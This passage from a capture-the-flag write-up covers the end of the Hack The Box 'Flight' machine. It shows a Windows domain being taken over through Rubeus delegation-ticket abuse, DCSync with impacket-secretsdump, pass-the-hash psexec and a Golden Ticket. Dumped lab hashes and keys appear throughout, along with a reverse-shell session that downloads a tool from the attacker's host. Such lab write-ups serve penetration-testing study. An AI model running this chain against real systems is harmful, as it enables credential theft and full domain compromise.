I have some timeout issues trying to exfiltrate the `SYSTEM` file via SMB, so I copy it to the `/xampp/htdocs/flight.htb` directory and fetch it with `wget`.

It's not the Kerberos credentials I need for the domain, but may be useful:

```console
$ impacket-secretsdump -system system -sam sam local
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f1285edf781e0ac5d390036170bf98d5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

### Domain Compromise Using `DCSync`

OK, let's get Kerberos credentials for the domain. I have a shell as the `G0$` machine account, which should be enough to do a `DCSync` attack.

```powershell
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.187] 49763
Windows PowerShell running as user G0$ on G0
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
nt authority\system
PS C:\windows\temp> iwr 10.10.14.21/Rubeus.exe -outfile rub.exe
PS C:\windows\temp> ./rub.exe tgtdeleg /nowrap
...
[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: TFrVoMYm4F3npex5DkIfnR+93qHudAcvpo3V2zvSDyA=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):
      doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIEChS17OtHC9LLKWugnXGTorkVO5nzc/Zp4XDxLJ2dTvAlxhx/fi4JufXo4SUUPsH6CXBMovKweE+cLtxB/4QWusVVENMFSXm3X2No/H+mXI4QrLysj9flJehvaq8Trch6a4FG8WOY6ANshSBxrK+qq2Uxi/N1Ulyek1CxAunGrzj6OH8fOA5/w3kWyeX/K6EZmGnvrxUnb4pIrlxmitu1mNzH6XbC/8I5056SSjbhFO+i8tyo3OhrxYGUHqT7OPBOKj1xoWkYClClVaygTqRXoqdZruj4F7xTUNrIPwaVv7JJLyE6zwNWQ+WqSJGw5oyQ25Zn1vmH5s1gtg+zgx1yEU3RI1IqZ1/qCC9ruIN/KRUNDr4GmqFui8vKsweBtLSJzsLLk+bsPCCmwj2Q/BFl7JYVRdojscvumtwpr6E24UZkoB0CzCa0fVIopz35csSlp57L8uqLLC9SPcWbUNZIXYDH0umyFCfJ0Vvq4ZuSC52W80sNm/eLhrgjqQEHTBwrQ9Ffk3Yf8H/ldYxZNn0aH/oszy5LmJSnp/+GVkmd1sw60aJXEH8Ae0sDVlh1LD90nb1u2sRkb9XHjvcImfZo3PcVAbaHn/qLJplxXRbQKqoYj24Wzo+0VJ1PFfi98piZ/Q2MeoeVZmDgVYAEiVD00oJlqdAzxHaIgo4xilZEEMPjOyNylLIRdzPNtdInY/XMAC34X67oZFCmuFvjpRZcXUgVw69Tc6CKWMooYvyoU1tqXTZGEP2QP9ohVFTAl6I4PY2WTNW3WfLuJSpO/n52UG1Jqt8oDLXC7p9DuvEKOJLVpCuDc/uBJIYEQ5+XVj94+O0XVd4bAtAQdez/ek3qQMfqx9cS5Q6sLDtxDrU8mUPkcpyWxf8wlGKxp6IHQbLtJ7UFj/loKzTODe9qOVwSAiKBufa6dKSdNFZmbyHTMHW7xQXmziTosu0nm0Lm6fjKZKgFuLkmR2aYzbp7VM0O32ghl+UfP8E93cscZnR1HrkRo10GjBmgzgspHGkVUnn9yyK1F4QcfVm1FNFybEVKXZ08UPi2arZ2T3mSUcC/bGlagMuiFavpu3t4XBNnnRWbg8lhE42R36N8r1KjAVfU0wECa/G2nSVdTKrD8Ppf99M6V8gc7FLPSYDUYWGlRqOgRZRzpRTkl0FY2JD3tCYdNPd19x0Ys8QElClrHxRU6IKz+2IL2MmPIjU00ka/495d05wq4yAtlBbjIOZDz7kOCuGXtzWdqGBm/eq+OcXgI/73CvhJYpGw5la6IgI2xXiUHkRTZWPobXSbg3jqM+SodMYMupy7UN2iqXl1BGgqZeGLi8bW/Mip8X+pcG5kY4hkslKEWA9V5RYOt9SQSDCuzhRRiLeR3k1O71mJo4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgASIYAteZkfWV1TNiVrNXeylMQAnv5dvzMQ0s3qp+aoGhDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDI0MTAxMDAwMzc1M1qmERgPMjAyNDEwMTAxMDM3NTNapxEYDzIwMjQxMDE3MDAzNzUzWqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
```

I copy and paste that onto my machine, and convert it to `CCACHE` format:

```console
$ minikerberos-kirbi2ccache tgtdeleg t.ccache
INFO:root:Parsing kirbi file /home/e/htb-flight/tgtdeleg
INFO:root:Done!
```

I export the ticket and check it:

```console
$ export KRB5CCNAME=$PWD/t.ccache

$ klist
Ticket cache: FILE:/home/e/htb-flight/t.ccache
Default principal: G0$@FLIGHT.HTB

Valid starting       Expires              Service principal
10/09/2024 18:37:53  10/10/2024 04:37:53  krbtgt/FLIGHT.HTB@FLIGHT.HTB
```

And run `secretsdump`, but it fails:

```text
$ impacket-secretsdump -k -no-pass g0.flight.htb
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Cleaning up...
```

```console
$ impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

I could use `ntpdate` to match my system's time to the DC (`sudo ntpdate -s flight.htb`) but I'd rather use [`faketime`](https://github.com/wolfcw/libfaketime) since I only need to adjust the time for this one command. But, to do that I'll need to compare the skew between my system and the DC:

My machine:

```console
$ date
Wed Oct  9 12:01:06 PM CST 2024
```

The target:

```powershell
PS C:\windows\temp> date
Wednesday, October 9, 2024 6:01:21 PM

PS C:\windows\temp> get-timezone
Id                         : Pacific Standard Time
DisplayName                : (UTC-08:00) Pacific Time (US & Canada)
StandardName               : Pacific Standard Time
DaylightName               : Pacific Daylight Time
BaseUtcOffset              : -08:00:00
SupportsDaylightSavingTime : True
```

By manually figuring out the timezone difference and the clock times on each system I figure out that the DC is seven hours ahead, so I plug that into `faketime` and now the `secretsdump` command works:

```console
$ faketime -f +7h impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:08c3eb806e4a83cdc660a54970bf3f3043256638aea2b62c317feffb75d89322
Administrator:aes128-cts-hmac-sha1-96:735ebdcaa24aad6bf0dc154fcdcb9465
Administrator:des-cbc-md5:c7754cb5498c2a2f
[*] Cleaning up...
```

For finding the `faketime` offset I also could have used `ntpdate -q` (query) to automatically print the difference in seconds:

```console
$ ntpdate -q flight.htb
2024-10-09 20:17:50.480463 (-0600) +25199.970565 +/- 0.047848 flight.htb 10.10.11.187 s1 no-leap
```

That value `+25199.970565` is in seconds, and you can pass it directly to `faketime`:

```text
$ skew=$(ntpdate -q flight.htb | awk '{print $4}')

$ faketime -f ${skew} impacket-psexec flight.htb/administrator@g0.flight.htb -k -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on g0.flight.htb.....
[*] Found writable share ADMIN$
[*] Uploading file YcTaGafE.exe
...
```

Anyway. I tried `mimikatz` again, and got it to work. Here's how the `DCSync` attack works with that tool:

```console
mimikatz # lsadump::dcsync /domain:flight.htb /user:krbtgt
[DC] 'flight.htb' will be the domain
[DC] 'g0.flight.htb' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 9/22/2022 12:48:01 PM
Object Security ID   : S-1-5-21-4078382237-1492182817-2568127209-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 6a2b6ce4d7121e112aeacbc6bd499a7f
    ntlm- 0: 6a2b6ce4d7121e112aeacbc6bd499a7f
    lm  - 0: c099fc95dd63aaff198d3d01fa953c7f

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 400c9aa59cd7b075a4f08a92b5080e05

* Primary:Kerberos-Newer-Keys *
    Default Salt : FLIGHT.HTBkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : fb234268e90162081d11b7e9d5097091be02f42c25eec0d4bbf8a2442e9d40d0
      aes128_hmac       (4096) : 19d9549f8e011231c9a755e0b7d7695f
      des_cbc_md5       (4096) : 9bf8155161a8e09e

* Primary:Kerberos *
    Default Salt : FLIGHT.HTBkrbtgt
    Credentials
      des_cbc_md5       : 9bf8155161a8e09e
...
```

With the hash, now I can `psexec` as `administrator`:

```console
$ impacket-psexec administrator@flight.htb -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on flight.htb.....
[*] Found writable share ADMIN$
[*] Uploading file cqFXvGed.exe
[*] Opening SVCManager on flight.htb.....
[*] Creating service heHD on flight.htb.....
[*] Starting service heHD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

I also grab the `krbtgt` hash for the Golden Ticket:

```console
$ faketime -f +7h impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user krbtgt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6a2b6ce4d7121e112aeacbc6bd499a7f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:fb234268e90162081d11b7e9d5097091be02f42c25eec0d4bbf8a2442e9d40d0
krbtgt:aes128-cts-hmac-sha1-96:19d9549f8e011231c9a755e0b7d7695f
krbtgt:des-cbc-md5:9bf8155161a8e09e
[*] Cleaning up...
```

### Golden Ticket

```console
$ impacket-ticketer -nthash $nthash -domain-sid $dsid -domain flight.htb administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
...
[*] Saving ticket in administrator.ccache

$ export KRB5CCNAME=$PWD/administrator.ccache

$ klist
Ticket cache: FILE:/home/e/htb-flight/administrator.ccache
Default principal: administrator@FLIGHT.HTB

Valid starting       Expires              Service principal
10/09/2024 13:26:00  10/07/2034 13:26:00  krbtgt/FLIGHT.HTB@FLIGHT.HTB
        renew until 10/07/2034 13:26:00
```

Now I can `psexec` as `administrator`:

```console
$ faketime -f +7h impacket-psexec flight.htb/administrator@g0.flight.htb -k -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on g0.flight.htb.....
[*] Found writable share ADMIN$
[*] Uploading file SmfLsRpX.exe
[*] Opening SVCManager on g0.flight.htb.....
[*] Creating service DEIW on g0.flight.htb.....
[*] Starting service DEIW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Open Questions

Unresolved issues encountered while attacking this target.

- Why did `spider_plus` time out? Issues with SMB signing, maybe?
- Why does running Mimikatz and winPEAS hang the shell? AV? (If it's AV, why doesn't it prevent the other shady binaries I used?)
  - I tried `mimikatz` again and it worked. I had a number of other intermittent issues with shells and such. This box seems really flaky.

## Credits

I got stuck at the point where `ntlm-theft` was required to grab the hash for `c.bum`. [0xdf's write-up](https://0xdf.gitlab.io/2023/05/06/htb-flight.html) helped me get unstuck.
